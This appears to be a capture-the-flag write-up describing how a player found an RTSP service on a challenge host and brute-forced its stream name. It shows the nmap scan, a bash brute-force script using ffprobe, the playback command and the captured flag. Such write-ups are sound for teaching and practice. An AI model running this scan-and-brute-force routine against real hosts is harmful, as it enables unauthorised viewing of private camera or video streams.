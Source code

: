 # 📡 Juche Jaguar RTSP Stream Enumeration — CTF Write-Up

**Category:** Networking / OSINT / Media Enumeration\
**Points:** 150

---

## 🎯 Challenge Summary

We received intel that Juche Jaguar exposed a network stream on host `34.85.185.78`, operating somewhere between TCP ports `5000–10000`. Our objective was to:

- Identify the correct RTSP port.
- Brute-force the correct stream name.
- Connect and extract the flag from the stream.

---

## 🧰 Tools Used

| Tool              | Purpose                          |
| ----------------- | -------------------------------- |
| `nmap`            | Port scanning and RTSP detection |
| `ffprobe`         | Silent RTSP probing              |
| `bash`            | Brute-force scripting            |
| `ffplay` or `VLC` | Stream viewing and playback      |

---

## 🪜 Step-by-Step Breakdown

### 🔎 Step 1: Scan for the RTSP Port

Used `nmap` to scan TCP ports 5000–10000 for RTSP services:

```bash
nmap -p 5000-10000 --script rtsp-methods -T4 34.85.185.78
```

📌 **Result:** Port `8774` was found open and likely running RTSP.

---

### 📦 Step 2: Install `ffprobe`

On Kali Linux, `ffprobe` may not be installed by default.

To fix:

```bash
echo 'deb http://http.kali.org/kali kali-rolling main non-free contrib' | sudo tee /etc/apt/sources.list
sudo apt update
sudo apt install ffmpeg
```

---

### 🚪 Step 3: Confirm RTSP Server

Tested the RTSP service using `ffprobe`:

```bash
ffprobe rtsp://34.85.185.78:8774/
```

📌 **Output:** `404 Not Found` — confirms RTSP is active, but stream name is required.

---

### 🧠 Step 4: Brute Force the Stream Name

Created a `streams.txt` list:

```text
stream
stream1
live
live.sdp
media
video
test
camera
cam
broadcast
```

Wrote a brute force script `brute_rtsp.sh`:

```bash
#!/bin/bash
HOST="34.85.185.78"
PORT="8774"

while IFS= read -r STREAM; do
  URL="rtsp://$HOST:$PORT/$STREAM"
  echo "[*] Trying: $URL"
  ffprobe -v error "$URL" > /dev/null 2>&1
  if [ $? -eq 0 ]; then
    echo "✅ SUCCESS: Stream found at $URL"
    break
  fi
done < streams.txt
```

Run the script:

```bash
chmod +x brute_rtsp.sh
./brute_rtsp.sh
```

📌 **Success:** Stream found at `/stream`

---

### 🎥 Step 5: View the Stream and Capture Flag

Used `ffplay` to open the stream:

```bash
ffplay rtsp://34.85.185.78:8774/stream
```

💡 **Flag appeared in the video stream:**

```
C1{RTSP_you_found_me}
```

---

## 🧠 Key Takeaways

- RTSP often doesn't advertise stream names — brute-force required.
- `ffprobe` is silent and efficient for probing stream validity.
- Custom Kali installs may require fixing package keys and repos.
- Combining network scanning and media tools = effective enumeration strategy.

---

## 🏁 Final Flag

```
C1{RTSP_you_found_me}
```

---

